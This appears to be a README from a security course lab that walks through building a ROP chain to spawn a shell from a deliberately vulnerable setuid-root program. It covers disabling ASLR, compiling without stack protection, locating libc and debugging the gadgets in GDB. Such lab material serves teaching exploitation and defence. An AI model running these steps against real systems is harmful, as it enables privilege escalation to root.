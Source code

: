 # How to Launch a Shell in a Vulnerable Program
## Setup
- Disable ASLR:
```
sudo sysctl -w kernel.randomize_va_space=0
```
- For our example vulnerable program, we'll use `vuln.c` from assignment 1:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- In this attack, we'll assume that libc is not statically linked to the executable
- Link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```

## Find Base Address of libc
- Run `ldd examples/vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Shellcode
- We'll create an ROP chain to launch a shell
	- `vuln` will execute the generated `shellcode` during a buffer overflow
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We use GDB to determine where in the stack to store parts of the shellcode; e.g. `"/bin/sh\0"`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
- Run `vuln` in normal execution:
```
./invoke.sh vuln
```

### How to Debug this ROP Chain
#### Using GDB
- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```
- GDB creates two additional variables that we mst clear:
```
unset env LINES
unset env COLUMNS
```

- We can then debug this ROP chain by setting breakpoints:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's address is 0x2c79c
continue
```

#### Finding Correct %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

#### Determining Valid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler.
